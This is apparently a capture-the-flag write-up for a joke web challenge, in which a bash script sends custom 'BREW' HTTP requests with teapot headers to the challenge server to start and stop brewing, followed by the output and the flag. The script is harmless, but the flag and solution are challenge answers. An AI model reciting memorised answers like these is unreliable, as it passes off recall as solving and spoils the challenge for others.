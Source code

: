 ### Solved by historypeats

This was a web challenge that required us to send a special HTTP Method to the web application to both start, and stop, the "brewing". This was solved with the following quick script:

```bash 
#!/bin/bash

echo "Starting Brew..."
curl --request BREW http://brew.p.tjctf.org/flag --header "Content-Type: message/teapot" --header "Accept-Additions: sugar" --data "start" --proxy "localhost:8080" --header "Type: message/teapot"
sleep 59
curl --request BREW http://brew.p.tjctf.org/flag --header "Content-Type: message/teapot" --header "Accept-Additions: sugar" --data "stop" --proxy "localhost:8080" --header "Type: message/teapot"
```

Running it yields the following results:
```bash
historypeats@vulnhub $ ./exploit.sh
Starting Brew...
Brewing...Ahh! That was a marvelous cup of tea!<br>Oh, I found this flag at the bottom of the cup: h4v3-a-n1c3-cup-0f-t3a!
```

Key: h4v3-a-n1c3-cup-0f-t3a!
